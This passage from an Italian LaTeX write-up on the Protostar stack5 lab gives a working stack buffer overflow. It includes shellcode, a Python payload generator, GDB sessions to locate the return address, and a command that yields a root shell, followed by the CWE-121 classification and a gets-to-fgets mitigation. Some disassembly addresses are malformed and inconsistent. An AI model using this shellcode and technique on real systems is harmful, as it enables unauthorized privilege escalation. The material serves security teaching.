            "\xcd\x80\x31\xc0\x40\xcd\x80";
print shellcode
\end{minted}
\end{mdframed}
Per poter generare un input malizioso efficace, bisogna calcolare ed impostare correttamente alcuni parametri da aggiungere allo script. Per ottenere tali parametri è necessario ricostruire il layout dello stack. Eseguiamo allora \texttt{stack5} con GDB, passandogli come input il file \texttt{/tmp/payload}. Esaminiamo il programma e disassembliamo il main:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5..done
(gdb) disas main
Dump of assembler code for function main:
0x0804883c4  <main+0>:   push  %ebp
0x0804883c5  <main+1>:   mov   %esp, %ebp
0x0804883c7  <main+3>:   and   $0xfffffff0, %esp
0x0804883ca  <main+6>:   sub   $0x50, %esp
0x0804883cd  <main+9>:   lea   0x10 (%esp), %eax
0x0804883d1  <main+13>:  mov   %eax, (%esp)
0x0804883d4  <main+16>:  call  0x80482e8 <gets@plt>
0x0804883d9  <main+21>:  leave
0x0804883da  <main+22>:  ret
End of assembler dump.
\end{lstlisting}
\end{mdframed}
Inseriamo un breakpoint subito prima dell'istruzione \texttt{leave}, dopodiché eseguiamo il programma sotto gdb, passando lo shellcode in input:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) b *0x0804883d9

Breakpoint1 at 0x0804883d9: file stack5/stack5.c, line 11
(gdb) r < /tmp/payload
\end{lstlisting}
\end{mdframed}
Lo stack subito prima di \texttt{leave} ha questa forma:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width= 0.6 \textwidth]{./Images/cap8/8.11.png}
\end{figure}
\FloatBarrier

L'ampiezza dell'area di memoria da buffer alla cella contenente l'indirizzo di ritorno è di $28+36+8+4=76$ byte. Di questi, $36+8+4=48$ byte devono essere riempiti con un carattere di padding, ad esempio \textit{a}. L'indirizzo iniziale dello shellcode è memorizzato al top dello stack. Stampiamo il contenuto di ESP mediante il comando \texttt{x/a}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) x/a $esp
0xbffffc90: 0xbffffca0
\end{lstlisting}
\end{mdframed}
Questo indirizzo va impostato come valore della variabile \texttt{ret} nello script \texttt{stack5-payload.py}. A questo punto usciamo (\texttt{q}) da GDB e aggiorniamo lo script python:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{stack5-payload.py}
\begin{minted}[baselinestretch=1.0]{python}
#!/usr/bin/python

#parametri da impostare
length = 76
ret = '\xa0\xfc\xff\xbf'

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73" + \
            "\x68\x68\x2f\x62\x69\x6e\x89" + \
            "\xe3\x89\xc1\x89\xc2\xb0\x0b" + \
            "\xcd\x80\x31\xc0\x40\xcd\x80";
padding = 'a' * (length - len(shellcode))

payload = shellcode + padding + ret
print payload
\end{minted}
\end{mdframed}
Salviamo anche in questo caso l'intero input su un file:
\begin{center}
    \texttt{python stack5-payload.py > /tmp/payload}
\end{center}
Eseguiamo \texttt{stack5} con GDB:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5..done
(gdb) r < /tmp/payload
Starting program: /opt/protostar/bin/stack5 < /tmp/payload
Executing new program: /bin/dash

Program exited normally
(gdb) _
\end{lstlisting}
\end{mdframed}
Lanciando il programma in GDB, viene eseguita \texttt{/bin/dash} ma termina immediatamente. Invece se lo eseguiamo fuori da GDB va in crash:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /opt/protostar/bin/stack5 < /tmp/payload
Segmentation fault
$ _
\end{lstlisting}
\end{mdframed}
È possibile che il debugger GDB abbia aggiunto alcune variabili di ambiente nel processo esaminato (\texttt{stack5}). Se ciò accade, cambia la composizione di \texttt{envp}, e di conseguenza cambiano anche la posizione degli stack frame, dell'indirizzo di \texttt{buffer}, e l'input malizioso sovrascrive EIP con un indirizzo che non è più l'inizio dello shellcode. Nelle sfide precedenti si è fatto riferimento a un indirizzo di una funzione del programma (nell'area di codice e non nello stack), quindi non si è mai fatto riferimento ad un indirizzo assoluto sullo stack: ecco perché il problema non si è verificato. Per verificare le ipotesi stampiamo le variabili di ambiente in un terminale normale (\texttt{env}) e dentro GDB (\texttt{show env}). Scopriamo che in GDB sono presenti due variabili d'ambiente in più, in particolare abbiamo \texttt{LINES=27} e \texttt{COLUMNS=105}, che rappresentano l'ampiezza del terminale in righe e colonne. Cancelliamo le variabili in GDB con il comando \texttt{unset env LINES} e \texttt{unset env COLUMNS} e procediamo come prima, inserendo un breakpoint prima dell'istruzione \texttt{leave}, dopodiché eseguiamo il programma con l'input malizioso:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) disas main
...
(gdb) b *0x080483d9
Breakpoint1 at 0x080483d9: file stack5/stack5.c, line 11
(gdb) r < /tmp/payload
\end{lstlisting}
\end{mdframed}
L'indirizzo iniziale dello shellcode è memorizzato al top dello stack: stampiamo quindi il contenuto di ESP:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) x/a $esp
0xbffffcb0: 0xbffffcc0
\end{lstlisting}
\end{mdframed}
Questo è il nuovo indirizzo che va impostato come valore della variabile \texttt{ret} nello script python. Confrontando gli indirizzi di \texttt{buffer}, abbiamo che nel terminale l'indirizzo era \texttt{0xbffffcc0}, mentre nel debugger era \texttt{0xbffffca0}. La differenza è di 32 byte (2 blocchi da 16 byte, ovvero lo spazio creato da GDB per due variabili d'ambiente). A questo punto aggiorniamo la variabile \texttt{ret} al valore \texttt{0xbffffcc0} nello script python, ed eseguiamolo copiando l'output su un file; dopodiché eseguiamo \texttt{stack5} da terminale, passandogli l'input malizioso generato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ python stack5-payload.py > /tmp/payload
$ /opt/protostar/bin/stack5 < /tmp/payload
\end{lstlisting}
\end{mdframed}
Stavolta non abbiamo un crash: viene eseguita correttamente \texttt{/bin/dash}, ma termina immediatamente. Il motivo è che quando parte \texttt{/bin/sh}, lo stream \texttt{STDIN} è vuoto in quanto è stato drenato da \texttt{gets()}, e quindi una lettura successiva su \texttt{STDIN} segnala EOF. La shell \texttt{/bin/sh} è lanciata in modalità interattiva: non esegue script ed esegue comandi da \texttt{STDIN}. Per questo motivo, \texttt{/bin/sh} prova a leggere da \texttt{STDIN} e riceve EOF.

Apriamo allora un nuovo terminale ed eseguiamo una shell qualsiasi (va bene anche \texttt{/bin/dash}), e digitiamo \texttt{CTRL-D} (EOF). Notiamo che la shell esce immediatamente dopo aver chiuso \texttt{STDIN}, e quindi EOF viene interpretato come la fine della sessione interattiva. Per evitare questo problema, è necessario fare in modo che \texttt{/bin/sh} abbia uno \texttt{STDIN} aperto. Possiamo farlo utilizzando due comandi \texttt{cat}: il primo inietta l'input malevolo e attiva la shell, mentre il secondo accetta input da \texttt{STDIN} e lo inoltra alla shell, mantenendo aperto il flusso \texttt{STDIN}. Grazie a questo nuovo comando riusciamo a vincere la sfida:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ (cat /tmp/payload; cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
\end{lstlisting}
\end{mdframed}

\subsection{La vulnerabilità}
La vulnerabilità presente in \texttt{stack5.c} si verifica solo se diverse debolezze sono presenti e sfruttate contemporaneamente. La prima debolezza, ovvero l'assegnazione di privilegi non minimi al file binario, è già nota e non viene più considerata. La seconda debolezza è dovuta al fatto che la dimensione dell'input destinato ad una variabile di grandezza fissata non viene controllata: di conseguenza un input troppo grande corrompe lo stack. La CWE di riferimento è la \textbf{CWE-121 - Stack-based Buffer Overflow}.

\subsection{Mitigazione}
Un modo per mitigare questa debolezza è limitare la lunghezza massima dell'input ad una variabile di lunghezza fissata: ad esempio ciò può essere fatto evitando l'utilizzo di \texttt{gets()} in favore di \texttt{fgets()}. Quest'ultima infatti ha tre parametri in ingresso:
\begin{itemize}
    \item \texttt{char *s}: puntatore al buffer di scrittura
    \item \texttt{int size}: taglia massima dell'input
    \item \texttt{FILE *stream}: puntatore allo stream di lettura
\end{itemize}
e ha un valore di ritorno:
\begin{itemize}
    \item \texttt{char *}: \texttt{s} oppure \texttt{NULL} in caso di errore
\end{itemize}
La modifica da fare riguarda tutte le CTF stack di Protostar e consiste nel modificare la riga:
\begin{center}
    \texttt{gets(buffer)}
\end{center}
utilizzando la funzione \texttt{fgets()}, come abbiamo detto:
\begin{center}
    \texttt{fgets(buffer,64,stdin)}
\end{center}
In questo modo l'input viene troncato a 64 caratteri e il buffer overflow non avviene.


\let\cleardoublepage\clearpage

